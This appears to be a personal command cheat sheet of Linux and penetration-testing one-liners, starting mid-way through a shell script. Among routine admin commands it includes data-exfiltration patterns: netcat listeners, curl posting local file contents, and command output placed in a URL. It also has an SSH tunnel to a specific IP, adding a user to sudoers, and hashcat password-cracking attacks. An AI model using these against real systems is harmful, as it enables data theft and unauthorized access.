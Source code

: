 	if [ -z "$HOST" ] || [ -z "$NAME" ]; then
	        echo 'Missing -h or -n args' >&2
	        exit 1
	fi
	```
- Fetch and save website recursively : `wget -r -np -k https://SITE`
- SSH tunnel : `ssh -N -L 8080:10.0.0.14:80 kali@161.105.209.172`
- Execute shell file : `$0 FILE.sh`
- Show file contents : `nl `
- Send file content in request : `curl -d "@LOCAL_FILE"`
- PHP Local Test Server : `php -S 127.0.0.1:8000`
- Avoid variable premature evaluation : `use ' instead of "`
- Send file through ssh : `scp [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2`
- Capture network traffic : `sudo tcpdump -SX -i INTERFACE tcp port 389`
- Remove chars from string : 
	- `echo string | tr -dc a-z0-9 (Only keep a-z and 0-9)`
	- `echo string | tr -d '\n' (remove all \n and keep the rest)`
- Get hex value only : `xxd -p FILE`
- Decrypt files : `openssl enc -ALGO -d -in INFILE -out OUTFILE`
- Change keyboard layout : `setxkbmap fr`
- Text to hex : `python3 pwntools`
- Beautify JSON : `echo JSON | jq`
- Grep recursive : `grep -rwn PATH -e PATTERN`
- Receive data : 
	- nc :
		- `nc -lvnp PORT`
		- `echo "hello" | nc IP PORT`
	- php server :
		- `a=$(echo 1); curl http://server?c=$a`
- View open ports :
	- `netstat`
	- `ss`
	- `services list`
- View symlink source : `readlink -f`
- Execute command on found files : `find . -exec cat {} \;`
- Use output as args : `| xargs CMD`
- Search for pattern in files : `ag -i PATTERN /`      (silversearcher-ag)
- Append FILE : `echo 1 | tee -a FILE`
- Cut output : `| cut -d DELIMITER -f FIELD`
- Test String equal : `if [ "$c" = "$d" ]; then`
- Switch to root :
  	- `sudo -s`
  	- `su -`
- Add user to sudoers : `usermod -a -G sudo USER`

## Hashcat 

- Mask Attack : `hashcat -mMODE -a 3 'hash' -1 ?l?d?s?u ?1?1?1?1?1?1 -O -w 3`
- Dictionnary attack : `hashcat -m1000 'hash' wordlist -r rule --force --potfile-disable -o cracked.txt`
